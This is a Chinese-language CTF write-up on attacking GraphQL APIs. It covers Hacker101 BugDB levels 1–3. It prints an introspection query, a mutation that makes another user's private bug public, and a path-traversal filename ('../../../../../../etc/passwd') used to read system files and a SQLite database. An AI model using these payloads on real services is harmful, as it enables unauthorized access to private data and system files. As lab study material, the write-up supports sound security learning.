






* TOC
{:toc}

## 前置知识

官方文档

+ [https://graphql.cn/](https://graphql.cn/learn/queries/#mutations)

分析工具

+ [chrome插件版Graphiql](https://chrome.google.com/webstore/detail/graphiql-extension/jhbedfdjpmemmbghfecnaeeiokonjclb?hl=en)
+ [graphdoc生成文档](https://github.com/2fd/graphdoc)

通用自省payload，graphiql默认发送

```
{"query":"\n  query IntrospectionQuery {\n    __schema {\n      queryType { name }\n      mutationType { name }\n      subscriptionType { name }\n      types {\n        ...FullType\n      }\n      directives {\n        name\n        description\n        locations\n        args {\n          ...InputValue\n        }\n      }\n    }\n  }\n\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n                ofType {\n                  kind\n                  name\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n"}
```

## 攻击面

## CTF

### hackone101 BugDB v1

题目提供了GraphiQl的界面，通过右侧的Docs可以得到所有接口信息



使用Query嵌套查询查询



### hackone101 BugDB v2

考点是`Mutation`的使用

需要将`victim`用户的`Bugs`的`privite`属性设置为`false`

```
mutation {
  modifyBug(id: 2, private: false) {
    ok
    bug {
      id
    }
  }
}
```

### hackone101 BugDB v3

常规的，将`query`方法列出



观察内省，发现多了两个`Mutation`的操作

分别是上传文件和修改文件名称

上传文件


得到的文件名是一串随即数

```
"node": {
  "id": "QXR0YWNobWVudHM6MQ==",
  "bugId": 1,
  "filename": "a13f22a17a0b6c38ec973e42dc80b608",
  "bug": {
    "id": "QnVnczox"
  }
```

修改文件名




修改文件名后得到的文件名成为可控值

```
"node": {
  "id": "QXR0YWNobWVudHM6MQ==",
  "bugId": 1,
  "filename": "test1.txt",
  "bug": {
    "id": "QnVnczox"
  }
```

到这里我就卡住了，然后参考了别人的wp

首先hackerone给出的提示为

+ What new functionality was added?
+ Filenames are always interesting
+ How do you access attachments? Hint: not via GraphQL

通过路由*/attachments/1*可以访问到之前上传的文件



事实上这有些类似我们的软连接的处理，在文件名中存在路径穿越的情况

```
mutation modifyAttachment{
  modifyAttachment(id: 1, filename: "../../../../../../etc/passwd"){
    ok
  }
}
```

当看了`main.py`和`model.py`的源码后，发现有这么一个东西

```python
from sqlalchemy import create_engine from sqlalchemy.ext.declarative import declarative_base from sqlalchemy.orm import relationship, scoped_session, sessionmaker from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String engine = create_engine('sqlite:///level18.db', convert_unicode=True) db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) Base = declarative_base() Base.query = db_session.query_property() class User(Base): __tablename__ = 'users' id = Column(Integer, primary_key=True) username = Column(String(255)) password = Column(String(255)) bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') class Bug(Base): __tablename__ = 'bugs' id = Column(Integer, primary_key=True) reporter_id = Column(Integer, ForeignKey('users.id')) reporter = relationship(User, primaryjoin=reporter_id == User.id) text = Column(Text(65536)) private = Column(Boolean()) attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') class Attachment(Base): __tablename__ = 'attachments' id = Column(Integer, primary_key=True) bug_id = Column(Integer, ForeignKey('bugs.id')) bug = relationship(Bug, primaryjoin=bug_id == Bug.id) filename = Column(String(255))
```

其中有个*sqlite:///level18.db*，用同样的方法，可以将flag读出



## 漏洞报告

## template

## 参考资料

+ [攻击GraphQL](https://xzfile.aliyuncs.com/upload/zcon/2018/7_%E6%94%BB%E5%87%BBGraphQL_phithon.pdf)
